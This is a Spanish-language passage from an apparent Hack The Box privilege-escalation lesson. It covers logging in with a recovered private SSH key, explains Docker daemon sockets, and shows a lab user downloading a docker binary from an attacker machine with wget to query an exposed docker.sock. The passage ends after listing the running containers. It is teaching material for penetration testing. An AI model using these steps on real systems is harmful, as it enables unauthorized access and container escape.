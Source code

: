 Desde aquí, podríamos copiar el contenido de la clave SSH privada al archivo `cry0l1t3.priv` y usarlo para iniciar sesión como el usuario `cry0l1t3` en el sistema host.

```r
ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```

### Docker Sockets

Un socket Docker o Docker daemon socket es un archivo especial que nos permite a nosotros y a los procesos comunicarse con el Docker daemon. Esta comunicación ocurre a través de un socket Unix o un socket de red, dependiendo de la configuración de nuestro Docker. Actúa como un puente, facilitando la comunicación entre el cliente Docker y el Docker daemon. Cuando emitimos un comando a través del Docker CLI, el cliente Docker envía el comando al socket Docker, y el Docker daemon, a su vez, procesa el comando y lleva a cabo las acciones solicitadas.

No obstante, los sockets Docker requieren permisos apropiados para asegurar la comunicación segura y prevenir el acceso no autorizado. El acceso al socket Docker típicamente está restringido a usuarios específicos o grupos de usuarios, asegurando que solo individuos de confianza puedan emitir comandos e interactuar con el Docker daemon. Al exponer el socket Docker sobre una interfaz de red

, podemos gestionar Docker hosts remotamente, emitir comandos y controlar contenedores y otros recursos. Este acceso a la API remota amplía las posibilidades para configuraciones Docker distribuidas y escenarios de gestión remota. Sin embargo, dependiendo de la configuración, hay muchas formas en las que los procesos o tareas automatizadas pueden ser almacenadas. Esos archivos pueden contener información muy útil para nosotros que podemos usar para escapar del contenedor Docker.

```r
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

Desde aquí, podemos usar el `docker` para interactuar con el socket y enumerar qué contenedores Docker ya están ejecutándose. Si no está instalado, entonces podemos descargarlo [aquí](https://master.dockerproject.org/linux/x86_64/docker) y subirlo al contenedor Docker.

```r
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```
